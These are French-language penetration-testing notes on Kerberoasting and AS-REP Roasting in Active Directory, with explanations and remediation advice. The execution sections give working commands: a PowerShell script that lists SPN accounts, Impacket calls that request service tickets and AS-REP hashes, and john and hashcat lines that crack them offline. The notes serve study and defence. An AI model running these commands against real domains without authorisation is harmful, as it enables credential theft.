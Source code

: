 # Kerberoasting
<br>
## Outils :  
- ListusersSPNs.ps1
- Impacket GetUserSPNs.py
<br>
## Explications :  
Les comptes de service ont un SPN (Service Principal Name), exemple : www/WEB-SERVER-01.adsec.local  
SPN = combinaison du service + de la machine hébergeant le service  
Comptes de service ont généralement un mdp robuste (20-30 caractères)  
Il est possible d'effectuer des demandes de TGS en indiquant des SPN arbitraires  
Un utilisateur de l’AD peut demander un TGS pour n’importe quel service auprès du KDC  
-> Obtention d'un TGS chiffré avec le mdp du compte possédant le SPN  
-> Bruteforce -> si le TGS est déchiffrable, le mot de passe est trouvé  
<br>
## Remédiation :  
Pas de SPN sur les comptes utilisateurs (ces derniers ont souvent des comptes à mot de passe suivant la politique AD pouvant être bruteforcés), ou alors si VRAIMENT nécessaire, utiliser la fonctionnalité “Managed Service Accounts” (MSA) de Microsoft qui permet de faire en sorte que le mot de passe du compte soit robuste et changé régulièrement et automatiquement
<br>
## Exécution  
`ListusersSPNs.ps1`, listing des utilisateurs possédant un SPN :  
<br>
<code>
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
{
        $userEntry = $result.GetDirectoryEntry()
        Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
        Write-host "SPNs"
        foreach($SPN in $userEntry.servicePrincipalName)
        {
                $SPN
        }
        Write-host ""
}
</code>
<br>
À partir de l’adresse <https://beta.hackndo.com/kerberoasting/>
<br>
<br>
***Récupération des TGS :***  
<br>
<code>
C:\Users\julien.ferrero\Desktop\no_scan\impacket-master\examples>python GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<domain_username>
</code>
<br>
***Cracking des TGS :***    
<br>
<code>
john --format=krb5tgs --wordlist=/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt TGS_to_crack.txt
</code>
<br>
***Affichage des TGS crackés :***  
<br>
`cat ~/.john/john.pot`
<br>
<br>
<br>
# AS_REP Roasting  
<br>
<br>
https://beta.hackndo.com/kerberos-asrep-roasting/
<br>
<br>
## Outils :  
·       Rubeus
·       Impacket : GetNPUsers.py
<br>
## Explication :  
Lors d’une demande de TGT, l’utilisateur doit, par défaut, s’authentifier auprès du KDC pour que celui-ci lui réponde. Il arrive que cette authentification préalable ne soit pas demandée pour certains comptes, permettant à un attaquant d’abuser de cette configuration.
Lorsque nous avons parlé du fonctionnement de Kerberos, il a été mis en évidence que dans le premier échange (KRB_AS_REQ - KRB_AS_REP), le client doit d’abord s’authentifier auprès du KDC avant d’obtenir un TGT. Une partie de la réponse du KDC étant chiffrée avec le secret du compte client (la clé de session), il est important que cette information ne soit pas accessible sans authentification. Dans le cas échéant n’importe qui pourrait demander un TGT pour un compte donné, et tenter de décrypter la partie chiffrée de la réponse KRB_AS_REP pour retrouver le mot de passe de l’utilisateur ciblé.


TODO IMG


## Remédiation :  
Ne pas activer “Do not require Kerberos preauthentication”
<br>
<br>
À partir de l’adresse <https://beta.hackndo.com/kerberos-asrep-roasting/>
<br>
## Exécution  
***Récupération des TGT pour les utilisateurs pour lesquels la preauth Kerberos est désactivée :***  
<br>
`PS > python C:\GetNPUsers.py spookysec.local/ -no-pass -usersfile .\userlist2.txt -dc-ip <dc_ip> -outputfile .\ASREP_Roastable_users.txt`
<br>
<br>
***Puis cracking :***  
`PS> john --wordlist=$wordlist ASREP_Roastable_users.txt`
<br>
<br>
(ou : `PS >  .\hashcat.exe --force -m 18200 -a 0 -o "../hash_res.txt" "../svc-admin.txt"`)
<br>
<br>
